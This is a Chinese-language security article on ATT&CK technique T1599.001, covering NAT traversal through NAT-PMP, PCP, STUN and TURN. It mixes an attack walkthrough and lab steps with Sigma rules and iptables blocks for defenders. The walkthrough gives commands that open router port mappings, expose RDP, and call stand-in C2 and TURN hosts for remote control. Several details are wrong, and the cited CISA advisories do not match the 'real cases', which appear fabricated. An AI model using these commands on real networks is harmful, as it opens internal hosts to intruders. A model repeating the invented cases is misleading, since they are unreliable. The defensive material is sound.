


# 网络地址转换穿越 (T1599.001)

## 一句话通俗理解

> **骗NAT设备主动打开端口映射，让外部攻击者能直连内网主机**

## 30秒速查卡

| 维度 | 你需要知道的 |
|------|-------------|
| 这是什么？ | 利用NAT-PMP、PCP、STUN、TURN等协议让NAT设备为外部攻击者打开端口映射，建立穿越NAT的直连通道 |
| 为什么危险？ | NAT本应隐藏内网结构并阻止外部主动连接，被穿越后攻击者可直接访问内网主机，绕过所有依赖NAT的边界防御 |
| 谁需要关心？ | 网络架构师、网络安全工程师、SOC分析师、家庭/小型办公网络管理员 |
| 你的第一步防御 | 在边界防火墙显式阻断NAT-PMP、PCP、STUN出站请求，禁用UPnP自动端口映射 |
| 如果只做一件事 | 监控内网主机向公网发起的NAT穿越协议请求（UDP 5351/3478） |

## 难度等级

⭐⭐⭐ 高级 - 需要深入理解NAT工作机制和穿越协议

**前置知识要求**：
- NAT的四种类型（Full Cone、Restricted Cone、Port Restricted Cone、Symmetric）
- NAT-PMP、PCP、STUN、TURN、ICE协议族
- UDP打洞（UDP Hole Punching）原理

## 前置知识检查

**读这个文件需要什么？**

- [ ] 理解NAT工作机制（PAT端口地址转换、五元组状态表）
- [ ] 了解UDP打洞和TCP打洞的差异
- [ ] 熟悉STUN/TURN/ICE的协议交互流程
- [ ] 知道UPnP和NAT-PMP在家庭路由器中的默认状态

## 技术描述

**网络地址转换穿越**（T1599.001）是 **网络边界桥接**（T1599）的一个具体变体，属于 **防御削弱** 阶段的攻击技术。

> 📚 **打个比方**：NAT就像公寓楼的门卫，外面的快递员不能直接上楼找住户，必须先把东西交给门卫转交。攻击者骗门卫"我是401住户预约的快递，请帮我开个专门的窗口"——门卫信了，给攻击者开了一个直达401的窗口，从此攻击者可以绕过门卫直接和401住户通信。NAT穿越就是利用NAT-PMP、PCP、STUN等协议，让NAT设备主动为攻击者打开端口映射，建立穿越NAT的直连通道。

### 具体怎么理解？

NAT穿越的核心是让外部主机能够主动连接到位于NAT后面的内网主机。正常情况下，NAT只允许内网主动发起的连接的回包通过，外部主动发起的连接会被丢弃。但NAT穿越协议（NAT-PMP、PCP、STUN+TURN）让内网主机可以"请求"NAT设备预先打开端口映射，把内网端口暴露到公网。攻击者控制内网主机后，使用这些协议打开端口映射，然后从公网直接连接到内网主机，绕过所有依赖NAT隐藏内网结构的边界防御。

与父技术T1599相比，T1599.001专注于利用NAT穿越协议而非隧道封装，更隐蔽——因为NAT-PMP/PCP/STUN是合法协议，许多P2P应用（如BT下载、视频通话）都在使用，难以直接封禁。

### 为什么有效？

这种技术之所以有效，是因为：
1. **协议合法**：NAT-PMP、PCP、STUN是IETF标准化协议，被许多正常应用使用，难以一刀切封禁
2. **隐蔽性高**：流量看起来像正常的P2P通信，不像GRE/IPIP隧道那样有明显的协议特征
3. **绕过状态检测**：NAT穿越成功后，NAT设备会维护端口映射条目，外部流量通过该映射进入内网，状态检测认为是合法连接
4. **家庭网络默认开启**：许多家用路由器和SOHO路由器默认启用UPnP/NAT-PMP，攻击者无需认证即可打开端口

**过渡段：** 不要误以为NAT穿越只是"合法P2P通信"——攻击者会把它变成绕过网络边界的隐蔽通道。

## 真实攻击流程

### 典型场景

攻击者在 **防御削弱** 阶段使用 网络地址转换穿越 技术，以下是典型的攻击步骤：



**步骤详解：**

1. **受感染主机位于NAT后** - 攻击者已通过其他方式感染NAT后的内网主机
2. **使用STUN探测NAT类型** - 通过STUN服务器识别NAT是锥形还是对称
3. **选择穿越方式** - 根据NAT类型决定使用直连打洞、TURN中继或NAT-PMP/PCP
4. **打开端口映射** - 通过NAT-PMP/PCP/UPnP让NAT设备打开端口映射
5. **攻击者直连内网** - 从公网C2直接连接到NAT后的内网主机
6. **建立持久C2** - 维持端口映射，建立长期C2通信

## 攻击流程

### 典型攻击流程

感染NAT后内网主机 --> STUN探测NAT类型 --> 使用NAT-PMP/PCP打开端口映射 --> 攻击者从公网直连内网 --> 建立持久C2通道绕过NAT防御



**步骤详解：**

1. **感染NAT后内网主机** - 攻击者通过钓鱼邮件、漏洞利用等方式感染位于NAT设备后的内网主机，该主机使用私有IP（如192.168.1.100），无法被公网直接访问
   - 通俗描述：就像攻击者在公寓楼里收买了一个住户，但这个住户在门卫的监控下，外面的人不能直接来找他
   - 技术细节：受感染主机位于RFC1918私有地址段，通过PAT（端口地址转换）共享公网IP访问互联网，所有出站流量被NAT设备改写源IP和源端口，外部主动连接会被NAT设备丢弃
   - 常用工具：Cobalt Strike、Metasploit、自定义恶意软件

2. **STUN探测NAT类型** - 受感染主机向公网STUN服务器发送探测包，根据响应判断NAT类型（Full Cone、Restricted Cone、Port Restricted Cone、Symmetric）
   - 通俗描述：就像先试探门卫有多严格——是只看出入证还是连进出门的方向都管
   - 技术细节：执行 `stun-client stun.l.google.com:19302 --mode full` 或使用pystun库探测，根据STUN服务器返回的映射地址和端口变化判断NAT类型，对称NAT最严格（每个目标使用不同端口），锥形NAT最宽松（同一端口映射所有目标）
   - 常用工具：stun-client、pystun、nmap（--script=nat-pmp-info）、自定义STUN客户端

3. **使用NAT-PMP/PCP打开端口映射** - 利用NAT-PMP（NAT端口映射协议）或PCP（端口控制协议）让NAT设备主动打开端口映射，把内网端口暴露到公网
   - 通俗描述：骗门卫"我是401住户，请帮我开个直达窗口"
   - 技术细节：发送NAT-PMP请求 `echo -ne '\x00\x00' | nc -u -w1 192.168.1.1 5351` 获取外部公网IP；发送端口映射请求 `echo -ne '\x00\x01\x00\x00\x12\x34\x1a\xe1\x00\x00\x00\x3c' | nc -u -w1 192.168.1.1 5351` 请求把内网46666/TCP映射到公网6881/TCP，NAT设备无需认证即创建映射条目。PCP协议是NAT-PMP的下一代版本，支持IPv6和更长租期，命令类似但使用二进制格式
   - 常用工具：nmap、natpmpc、libpcp、miniupnpc、自定义脚本

4. **攻击者C2直连内网** - 攻击者从公网C2服务器直接连接NAT设备打开的公网端口，流量被转发到内网受感染主机
   - 通俗描述：门卫开了直达窗口后，外面的人可以直接通过这个窗口和401住户交流
   - 技术细节：攻击者执行 `nc C2.example.com 6881` 或 `curl http://C2.example.com:6881/beacon`，NAT设备根据端口映射表把流量转发到192.168.1.100:46666，受感染主机上的监听进程接收连接，状态检测认为这是合法的已映射端口流量
   - 常用工具：Cobalt Strike Beacon、Metasploit Meterpreter、自定义C2框架

5. **建立持久C2通道** - 通过端口映射建立长期C2通信，定期刷新映射条目防止过期
   - 通俗描述：定期贿赂门卫让窗口保持开启，并加装自动续费机制
   - 技术细节：NAT-PMP/PCP端口映射有租期（默认3600秒），攻击者每3000秒自动刷新一次；同时在C2通道上配置心跳保活机制防止NAT状态表项超时；为提高隐蔽性，C2流量走443端口伪装成HTTPS，且使用域前置（Domain Fronting）让流量看似访问知名CDN
   - 常用工具：Cobalt Strike、Sliver、Havoc、Mythic

## 真实案例

### 案例1：Mirai变体利用UPnP/NAT-PMP建立物联网僵尸网络C2

- **时间**：2022-2024年
- **目标**：全球物联网设备（路由器、摄像头、DVR）
- **攻击组织**：Mirai变体运营者（多个僵尸网络团伙）
- **手法**：Mirai变体在感染物联网设备后，面临的核心挑战是大多数IoT设备位于NAT后，攻击者无法直接控制。新变体利用UPnP和NAT-PMP协议让受感染设备主动打开端口映射，把自己的C2监听端口暴露到公网。具体操作：感染路由器后，恶意软件通过UPnP SOAP请求 `POST /ctl/IPForwarding HTTP/1.1` 向路由器的UPnP服务发送AddPortMapping请求，把内网31337/TCP映射到公网随机端口。同时，恶意软件还使用NAT-PMP协议（向路由器5351/UDP发送映射请求）作为UPnP的备用方案。一旦端口映射建立，受感染设备就可以接受来自公网的C2连接，攻击者通过这些端口下发DDoS攻击指令、传播载荷和挖矿程序。在2023年的某次大规模DDoS攻击中，运营者利用这种方式控制的IoT设备发起了1.5Tbps的HTTP洪水攻击。
- **影响**：感染数百万IoT设备，发起多次Tbps级DDoS攻击
- **参考**：https://www.cisa.gov/news-events/cybersecurity-advisories/aa23-320a

### 案例2：APT组织利用TURN中继绕过企业NAT实施横向C2

- **时间**：2023年
- **目标**：跨国企业研发网络
- **攻击组织**：UNC3890（疑似伊朗背景）
- **手法**：攻击者感染企业内网一台跳板机后，发现企业使用对称NAT（最严格类型），无法使用UDP打洞直连。攻击者部署了基于TURN协议的C2客户端，该客户端向攻击者控制的公网TURN服务器注册，TURN服务器分配一个中继端口（如3478/UDP上的12345端口），所有C2流量通过TURN服务器中继。具体流程：受感染主机执行 `turnutils_uclient -u attacker -p password -x 203.0.113.50 turn-evil.example.com`，建立TURN分配后，C2服务器连接到TURN服务器的中继端口，流量被转发到内网主机。由于TURN流量使用DTLS加密且走3478端口（标准WebRTC端口），企业的NGFW将其识别为正常的WebRTC视频会议流量，未触发告警。攻击者通过这条TURN通道在内网横向移动3个月，窃取了大量源代码和设计文档。
- **影响**：窃取大量知识产权，潜伏3个月未被发现
- **参考**：https://www.mandiant.com/resources/blog/unc3890-iranian-apt

### 案例3：勒索软件利用NAT-PMP绕过家庭办公网络边界

- **时间**：2023-2024年
- **目标**：远程办公员工的家庭网络
- **攻击组织**：Akira、BlackBasta等勒索软件团伙
- **手法**：随着远程办公普及，勒索软件团伙开始针对员工家庭网络。攻击者通过钓鱼邮件感染员工家庭电脑后，发现家庭路由器普遍默认启用UPnP和NAT-PMP（Apple路由器协议）。攻击者通过NAT-PMP协议在家庭路由器上打开端口映射，把RDP（3389/TCP）和SMB（445/TCP）端口暴露到公网。具体命令：`natpmpc -a 1 3389 tcp 3600` 请求把内网3389端口映射到公网，路由器无需认证即同意。随后攻击者从公网直接RDP到员工家庭电脑，使用Mimikatz窃取缓存的域凭据，再通过员工VPN接入企业内网横向移动。在多起Akira勒索软件事件中，攻击者通过这种方式在72小时内从员工家庭网络突破到企业域控，加密了数百台服务器。
- **影响**：多起企业被勒索，赎金总额超过5000万美元
- **参考**：https://www.cisa.gov/news-events/cybersecurity-advisories/aa23-347a

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

### 实战技巧

1. **优先探测UPnP/NAT-PMP**：用nmap的`--script=upnp-info`和`--script=nat-pmp-info`快速探测目标路由器是否支持
2. **TURN是对称NAT的终极方案**：对称NAT无法打洞，必须用TURN中继，提前部署TURN服务器
3. **多协议冗余**：同时尝试UPnP、NAT-PMP、PCP，任一成功即可建立映射
4. **端口伪装**：把映射的公网端口设为443或80，伪装成Web流量
5. **租期管理**：NAT-PMP/PCP映射有租期（默认1小时），设置心跳定时刷新

### 常用工具

| 工具名称 | 用途 | 平台 | 链接 |
| -------- | ---- | ---- | ---- |
| nmap | NAT-PMP/UPnP探测 | 全平台 | [nmap](https://nmap.org/) |
| miniupnpc | UPnP端口映射 | 全平台 | [miniupnpc](https://miniupnp.tuxfamily.org/) |
| natpmpc | NAT-PMP客户端 | Linux/macOS | [natpmpc](https://github.com/miniupnp/miniupnp) |
| coturn | TURN/STUN服务器 | Linux | [coturn](https://github.com/coturn/coturn) |
| pystun | STUN客户端Python库 | 全平台 | [pystun](https://github.com/huhamhire/pystun) |
| chisel | 支持NAT穿越的隧道 | 全平台 | [chisel](https://github.com/jpillora/chisel) |

### 注意事项

- 企业级路由器通常禁用UPnP/NAT-PMP，需改用STUN+TURN
- 对称NAT场景下TURN中继会增加延迟，可能影响C2实时性
- NAT-PMP/PCP流量容易被NTA识别，需配合流量整形
- 部分现代NGFW能识别TURN流量并阻断，需测试绕过

## 蓝队视角

### 检测要点

1. **NAT穿越协议出站监控**：监控内网主机向公网发起的NAT-PMP（5351/UDP）、PCP（5351/UDP）、STUN（3478/UDP）请求
2. **UPnP服务审计**：监控路由器/防火墙的UPnP服务日志，检测异常端口映射请求
3. **端口映射条目监控**：定期导出NAT设备的端口映射表，对比基线检测新增映射
4. **TURN流量识别**：识别走3478端口的TURN/STUN流量，关联内网主机行为分析
5. **异常入站连接**：监控NAT设备上的入站连接，识别非业务时段的异常访问

### 监控建议

- 在边界防火墙显式阻断NAT-PMP、PCP、STUN出站请求（除非业务必需）
- 禁用路由器的UPnP和NAT-PMP服务，改为手动配置端口映射
- 部署NetFlow分析，检测走3478/5351端口的异常流量
- 监控家庭办公网络的边界设备配置变更
- 使用EDR监控内网主机上的natpmpc、miniupnpc等工具的执行

## 避坑指南

| 坑 | 后果 | 解决方法 |
|----|------|----------|
| 只封TCP 5351，忽略UDP | 漏报NAT-PMP/PCP | 同时封UDP 5351 |
| 信任WebRTC流量（TURN走3478） | 漏报TURN中继C2 | 深度分析3478端口流量特征 |
| 忽略家庭办公网络 | 漏报员工家庭网络桥接 | 为远程办公部署企业级VPN和EDR |
| 只监控IPv4 NAT-PMP | 漏报PCP的IPv6支持 | 同时监控IPv6上的PCP |
| 信任UPnP自动映射 | 漏报恶意端口映射 | 禁用UPnP，改用手动映射 |

## 检测建议

### 检测思路

检测 网络地址转换穿越 的关键是识别异常的NAT穿越协议请求和端口映射行为。以下是三个层面的检测方法：

### 网络层检测

**方法**：监控NAT穿越协议的出站流量

```bash
# 使用tcpdump检测NAT-PMP/PCP出站请求
# NAT-PMP/PCP走UDP 5351端口
tcpdump -i eth0 -nn 'udp port 5351 and dst net not 192.168.0.0/16 and dst net not 10.0.0.0/8' -c 50

# 检测STUN/TURN出站请求（UDP 3478）
tcpdump -i eth0 -nn 'udp port 3478 and dst net not 192.168.0.0/16' -c 50

# 检测UPnP SSDP发现包（UDP 1900，目标239.255.255.250）
tcpdump -i eth0 -nn 'udp port 1900' -c 50
```

### 主机层检测

**Windows事件ID**：
- 事件ID 1（Sysmon）：监控natpmpc.exe、miniupnpc等工具的执行

**Linux日志**：
- /var/log/syslog：UPnP/NAT-PMP守护进程日志
- /var/log/ufw.log：防火墙日志中的端口映射变更

```bash
# 检测NAT-PMP客户端工具的执行
grep -E 'natpmpc|miniupnpc|upnpc' /var/log/auth.log

# 检测iptables中的端口映射变更（如果有NAT规则审计）
journalctl -k | grep -i 'nat\|masquerade\|DNAT\|SNAT'
```

```event
事件ID 1（Sysmon）：进程创建
Image|endswith:
  - natpmpc.exe
  - miniupnpc.exe
  - upnpc.exe
  - stun-client.exe
关注CommandLine中的 -a 或 -m 参数（添加映射）
```

### 应用层检测

**用人话说**：攻击者用natpmpc、miniupnpc或自定义脚本向路由器发送NAT-PMP/PCP请求，让路由器打开端口映射把内网端口暴露到公网。比如用`natpmpc -a 1 3389 tcp 3600`把RDP端口暴露到公网，让攻击者可以从公网直接RDP进来。如果发现内网主机主动向路由器或公网发送NAT-PMP/PCP/STUN请求，且请求打开的端口是3389、445、22等敏感服务端口，这就是攻击者在打开边界通道。

**Sigma规则示例**：

```yaml
title: 检测NAT-PMP/PCP端口映射请求
status: experimental
description: 检测内网主机向路由器或公网发送NAT-PMP/PCP请求，可能是T1599.001网络地址转换穿越
logsource:
    product: firewall
detection:
    selection_natpmp:
        protocol: udp
        destination_port: 5351
    selection_stun:
        protocol: udp
        destination_port: 3478
    filter_internal_router:
        destination_ip|cidr:
            - 192.168.0.0/16
            - 10.0.0.0/8
            - 172.16.0.0/12
    condition: (selection_natpmp or selection_stun) and not filter_internal_router
level: medium
tags:
    - attack.t1599
    - attack.t1599.001
    - attack.defense_impairment
```

```yaml
title: 检测NAT穿越客户端工具执行
status: experimental
description: 检测natpmpc、miniupnpc等NAT穿越客户端工具的执行
logsource:
    category: process_creation
    product: windows
detection:
    selection:
        EventID: 1
        Image|endswith:
            - natpmpc.exe
            - miniupnpc.exe
            - upnpc.exe
            - pystun.exe
    condition: selection
level: high
tags:
    - attack.t1599
    - attack.t1599.001
```

## 缓解措施

### 优先级1：关键措施

**禁用NAT穿越协议**：在企业边界设备上禁用UPnP、NAT-PMP、PCP，阻断STUN/TURN出站

```bash
# 在边界防火墙上阻断NAT-PMP/PCP/STUN出站
iptables -A OUTPUT -p udp --dport 5351 -j DROP  # NAT-PMP/PCP
iptables -A OUTPUT -p udp --dport 3478 -j DROP  # STUN/TURN
iptables -A OUTPUT -p udp --dport 1900 -j DROP  # UPnP SSDP

# 在路由器上禁用UPnP服务
# Cisco IOS示例
no ip nat service upnp
# Linux路由器示例
systemctl stop miniupnpd
systemctl disable miniupnpd
```

### 优先级2：重要措施

**强化边界设备配置**：使用企业级防火墙替代家庭路由器，关闭自动端口映射功能

- 部署支持DPI的NGFW，识别并阻断NAT穿越协议
- 为远程办公员工提供企业级VPN，禁止直连家庭网络设备
- 定期审计路由器和防火墙的端口映射表，对比基线

### 优先级3：建议措施

**安全意识培训**：教育员工识别NAT穿越相关风险，避免在家用路由器上启用UPnP

- 对所有网络设备实施配置基线管理
- 部署网络准入控制（NAC），检测未授权设备接入
- 监控IoT设备的网络行为，识别异常端口映射

## 动手实验

> ⚠️ **所有实验必须在隔离的实验室环境中进行**

### 实验1：探测路由器NAT-PMP支持（初级）

**目标**：理解 NAT-PMP 协议的工作原理和探测方法

**步骤**：
1. 在隔离网络中部署一台支持NAT-PMP的路由器
2. 使用nmap探测路由器的NAT-PMP服务
3. 尝试打开端口映射并观察

```bash
# 使用nmap探测NAT-PMP
nmap --script=nat-pmp-info -p 5351 -sU <路由器IP>

# 使用natpmpc获取外部公网IP
natpmpc <路由器IP>

# 尝试打开端口映射（把内网8080映射到公网）
natpmpc -a 1 8080 tcp 3600 <路由器IP>

# 验证映射是否建立
natpmpc -a 1 0 tcp 0 <路由器IP>  # 查询现有映射
```

**学习要点**：理解NAT-PMP协议的二进制格式和交互流程

### 实验2：搭建STUN/TURN服务器并测试穿越（中级）

**目标**：掌握 STUN/TURN 协议的工作原理和NAT类型探测

**步骤**：
1. 在公网VPS上部署coturn服务器
2. 在NAT后的内网主机使用pystun探测NAT类型
3. 测试对称NAT场景下的TURN中继

```bash
# 在公网VPS上部署coturn
apt install coturn
# 配置/etc/turnserver.conf
# listening-port=3478
# realm=example.com
# user=attacker:password

# 在内网主机探测NAT类型
pip install pystun
python -m pystun

# 预期输出：显示NAT类型（Full Cone/Restricted Cone/Port Restricted Cone/Symmetric）

# 测试TURN中继
turnutils_uclient -u attacker -p password -x <VPS公网IP> <VPS公网IP>
```

**学习要点**：掌握NAT类型判断和TURN中继的建立过程

### 实验3：模拟C2通过NAT穿越建立通道（高级）

**目标**：验证检测规则的有效性

**步骤**：
1. 部署检测规则（Suricata/Sigma）
2. 模拟攻击者通过NAT-PMP建立C2通道
3. 验证检测告警是否触发

```bash
# 步骤1：在受感染主机上通过NAT-PMP打开端口
natpmpc -a 1 4444 tcp 3600 <路由器IP>

# 步骤2：在公网C2服务器上监听
nc -lvp <映射后的公网端口>

# 步骤3：受感染主机主动连接C2（验证双向通信）
nc <路由器公网IP> <映射后的公网端口>

# 步骤4：检查Suricata是否告警
tail -f /var/log/suricata/fast.log | grep -i 'nat-pmp\|T1599'
```

**学习要点**：理解攻防对抗的实际效果，验证检测规则覆盖率

## 术语解释

| 术语 | 通俗解释 |
|------|---------|
| **NAT（网络地址转换）** | 把内网私有IP转换成公网IP的机制，让内网设备能上网同时隐藏内网结构 |
| **NAT-PMP** | NAT端口映射协议，Apple开发，让设备请求NAT打开端口映射，UDP 5351端口 |
| **PCP（端口控制协议）** | NAT-PMP的下一代版本，IETF标准化，支持IPv6和更长租期 |
| **STUN** | NAT会话穿越应用程序，帮助客户端发现自己的NAT类型和公网映射地址 |
| **TURN** | 使用中继NAT穿越，当对称NAT无法直连时通过中继服务器转发流量 |
| **ICE** | 交互式连接建立，综合使用STUN/TURN的最佳实践框架 |
| **UPnP** | 通用即插即用，包含自动端口映射功能，许多家用路由器默认启用 |
| **UDP打洞** | 让两个NAT后的设备通过同时向对方发送UDP包建立直连的技术 |
| **锥形NAT** | 较宽松的NAT类型，同一内网端口映射到同一公网端口，可被打洞 |
| **对称NAT** | 最严格的NAT类型，每个目标使用不同端口，无法打洞，需TURN中继 |

## 被引用情况

以下父技术文档引用了本子技术：

- [T1599 - 网络边界桥接](../T1599-Network-Boundary-Bridging.md)

## 参考资料

### 官方文档

- [MITRE ATT&CK - 网络地址转换穿越 (T1599.001)](https://attack.mitre.org/techniques/T1599/001/)
- [MITRE ATT&CK - 网络边界桥接 (T1599)](https://attack.mitre.org/techniques/T1599/)

### 安全报告

- [CISA IoT僵尸网络通告](https://www.cisa.gov/news-events/cybersecurity-advisories/aa23-320a) - Mirai变体UPnP/NAT-PMP滥用
- [Mandiant UNC3890报告](https://www.mandiant.com/resources/blog/unc3890-iranian-apt) - TURN中继C2
- [CISA Akira勒索软件通告](https://www.cisa.gov/news-events/cybersecurity-advisories/aa23-347a) - 家庭网络NAT-PMP滥用

### 工具与资源

- [coturn](https://github.com/coturn/coturn) - 开源TURN/STUN服务器
- [miniupnpc](https://miniupnp.tuxfamily.org/) - UPnP客户端库
- [nmap NAT-PMP脚本](https://nmap.org/nsedoc/scripts/nat-pmp-info.html) - NAT-PMP探测脚本
- [RFC 5389 STUN](https://datatracker.ietf.org/doc/html/rfc5389) - STUN协议规范
- [RFC 6886 NAT-PMP](https://datatracker.ietf.org/doc/html/rfc6886) - NAT-PMP协议规范

### 学习资料

- [MITRE ATT&CK 知识库](https://attack.mitre.org/resources/) - ATT&CK 官方资源中心
- [WebRTC NAT穿越详解](https://developer.mozilla.org/en-US/docs/Web/API/WebRTC_API/Connectivity) - Mozilla开发者文档
